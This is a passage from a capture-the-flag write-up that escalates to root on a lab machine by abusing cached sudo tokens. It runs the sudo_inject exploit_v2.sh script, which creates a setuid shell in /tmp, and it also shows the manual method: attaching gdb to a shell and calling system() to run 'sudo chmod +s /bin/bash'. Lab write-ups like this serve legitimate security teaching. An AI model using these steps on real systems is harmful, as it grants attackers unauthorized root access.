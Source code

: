 ```zsh
kyle@seasurfer:/tmp/gdb$ ls
gdb_9.1-0ubuntu1_amd64.deb
kyle@seasurfer:/tmp/gdb$ ar x gdb_9.1-0ubuntu1_amd64.deb 
kyle@seasurfer:/tmp/gdb$ tar -xf data.tar.xz
kyle@seasurfer:/tmp/gdb$ cd usr/bin/
kyle@seasurfer:/tmp/gdb/usr/bin$ ./gdb
GNU gdb (Ubuntu 9.1-0ubuntu1) 9.1
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
...
(gdb) Quit
kyle@seasurfer:/tmp/gdb/usr/bin$ export PATH=$(pwd):$PATH
```

Now we should have all of the prerequisites for the exploits met. 

(sidenote, do not use the `exploit.sh` from the [sudo_inject git repo](https://github.com/nongiach/sudo_inject). For whatever reason, the `activate_sudo_token` binary seems to corrupt shell processes on a random chance - if anyone is able to figure it out, please contact me)

Now all what's left for us to do is fire away the `exploit_v2.sh` script, hoping for the best!

```zsh
kyle@seasurfer:~$ sh exploit_v2.sh 
Creating suid shell in /tmp/sh
Current process : 16965
Injecting process 845 -> bash
Injecting process 1313 -> sh
Injecting process 1321 -> sh
Injecting process 1344 -> bash
Sorry, try again.
cat: /proc/16966/comm: No such file or directory
Injecting process 16966 -> 
kyle@seasurfer:~$ ls -lpah /tmp/sh
-rwsr-sr-x 1 root root 127K Jun 23 21:44 /tmp/sh
kyle@seasurfer:~$ /tmp/sh -p
# whoami
root
# cat /root/root.txt
THM{REDACTED}
```

Success! After reading the exploit code, it became clear that it's in fact really simple to exploit manually as well. It's just getting the **PIDs** of the running shell processes, attaching to them one by one with `gdb`, and echoing a `sudo` payload with a `system()` call.

We just need the `gdb` binary and the **PID** of a shell where the `sudo` token is active:

```zsh
# attach gdb to the shell process with an active sudo token with -p switch
kyle@seasurfer:~$ gdb -q -n -p 1032
Attaching to process 1032
...
# now we can issue sudo commands with the system call, example:
(gdb) call system("echo | sudo -S chmod +s /bin/bash 2>&1")
...
(gdb) quit
A debugging session is active.

	Inferior 1 [process 1032] will be detached.

Quit anyway? (y or n) y
Detaching from program: /usr/bin/bash, process 1032
[Inferior 1 (process 1032) detached]
kyle@seasurfer:~$ ls -lpah /bin/bash
-rwsr-sr-x 1 root root 1.2M Jun 18  2020 /bin/bash
```